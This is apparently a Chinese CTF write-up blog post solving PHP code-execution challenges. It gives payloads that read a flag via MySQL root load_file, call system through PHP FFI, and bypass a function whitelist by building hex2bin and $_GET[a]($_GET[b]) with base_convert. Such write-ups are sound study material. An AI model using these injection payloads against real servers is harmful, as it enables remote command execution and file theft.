     c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');foreach($dbh->query('select load_file("/flag36d.txt")') as $row){echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e->getMessage();exit(0);}exit(0);

## Web77
https://www.php.cn/php-weizijiaocheng-415807.html

    c=$ffi = FFI::cdef("int system(const char *command);");$a='/readflag > 1.txt';$ffi->system($a);exit();

php>=7.4。

无语了。。。下面这部分放上去hexo就报错。。。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210726165017.png)

## Web123
老题了，通过数学函数构造命令。

抄yu22x师傅的博客了，写的很详细：

	base_convert(number,frombase,tobase);
	参数	描述
	number	    必需。规定要转换的数。
	frombase	必需。规定数字原来的进制。介于 2 和 36 之间（包括 2 和 36）。高于十进制的数字用字母 a-z 表示，例如 a 表示 10，b 表示 11 以及 z 表示 35。
	tobase	    必需。规定要转换的进制。介于 2 和 36 之间（包括 2 和 36）。高于十进制的数字用字母 a-z 表示，例如 a 表示 10，b 表示 11 以及 z 表示 35。
	bindec — 二进制转换为十进制
	bindec ( string $binary_string ) : number
	decbin — 十进制转换为二进制
	decbin ( int $number ) : string
	dechex — 十进制转换为十六进制
	dechex ( int $number ) : string
	decoct — 十进制转换为八进制
	decoct ( int $number ) : string
	hexdec — 十六进制转换为十进制
	hexdec ( int $number ) : string

在这个题中，我们不能使用除题目白名单中给出的函数以外的任何字符。那我们的目的就是构造出字母或者构造出函数。
假设我们要构造出如下表达式

	c=$_GET[a]($_GET[b])&a=system&b=cat flag

我们需要构造的是其实只有 _GET，$我们可用使用，中括号可用用花括号代替，小括号也是可以使用的。这时候我们想到了一个办法，如果可以构造出hex2bin函数就可以将16进制转换成字符串了。我们又可以用decoct将10进制转换成16进制。也就是可以将10进制转换成字符串。
那么问题来了，hex2bin怎么构造呢，这时候就需要用到base_convert了。
我们发现36进制中包含了所有的数字和字母，所有只需要将hex2bin按照36进制转换成10进制就可以了。

	echo base_convert('hex2bin', 36, 10);
	结果  37907361743
	echo hexdec(bin2hex("_GET"));
	结果 1598506324

现在我们要做的就是反过来了
	
	base_convert('37907361743',10,36);    hex2bin
	